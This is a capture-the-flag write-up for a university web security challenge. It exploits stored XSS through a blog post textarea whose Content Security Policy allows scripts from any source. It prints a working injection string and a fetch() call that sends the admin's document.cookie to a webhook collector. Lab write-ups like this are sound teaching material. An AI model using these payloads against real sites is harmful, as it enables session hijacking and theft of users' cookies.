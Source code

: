 # Challenge `Read my lips: No more scripts!` writeup

- Vulnerability:
  - _Endpoint has a **Cross Site Scripting (XSS)** vulnerability_
- Where:
  - _When writing the content, it will be displayed in a `<textarea>` endpoint. Although it has Content Security Policy, the implemented policy allows script tags with src from any source (script-src *)_
- Impact:
  - _Allows to **obtain the admin's cookies** by injecting malicious code in the content part of a blogpost_

## Steps to reproduce

First we connected to the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22254`. We can see that now the server allows anyone to submit new blogposts. Looking further, we make a 'test' post, and check the source code of the page. 
We can see that the content of the post is being displayed in a `<textarea>` tag. However, this site has Content Security Policy implemented. 

Analyzing the policy `script-src *`, we conclude that the filters allow script tags with the src equal to any source! This means that the server is  vulnerable to **XSS**. Here is where the content is displayed:

```html
<textarea class="form-control" name="content" id="contentArea" rows="10" >Here is where the content is displayed...</textarea>
```

Having found a way to inject code in the page, we will lure the admin to perform a request to the site where we are collecting the cookies. Since we did not have any site of our own we used a online service to collect our https requests [Webhook](https://webhook.site/). 

Now we also need a website to host our payload. We opted to use sigma since its easy and quick to implement. First login with your credentials: `ssh sigma.ist.utl.pt -l istxxxxxx`

Then we used the directory `/web`, and added a file with our malicious payload, getting the following website: `https://web.tecnico.ulisboa.pt/ist195674/read_my_lips_no_more_scripts.js`

The malicious payload in the javascript file is a fetch() to our webhook site, with the cookie as the body of the request:
```javascript
fetch('https://webhook.site/a0e83e7e-be55-4740-8180-f38200e300ea', {method: 'POST',mode: 'no-cors',body:document.cookie});
```
The final step is to insert the payload in the `src` we are going to send.

```html
</textarea><script type="text/javascript" src="https://web.tecnico.ulisboa.pt/ist195674/read_my_lips_no_more_scripts.js"></script></textarea>
```

This will only be effective when we choose to send it using the following button: `Update post and send it for admin review`.

As soon as the admin **'clicked the link',** we received the following cookie in the http request on our website:
```SECRET=SSof{R3m0t3_Scripts_are_allowed_with_this_CSP}```

Now, we were able to store the request in a website we control and therefore have possession of the admin's cookie obtaining the **flag**.
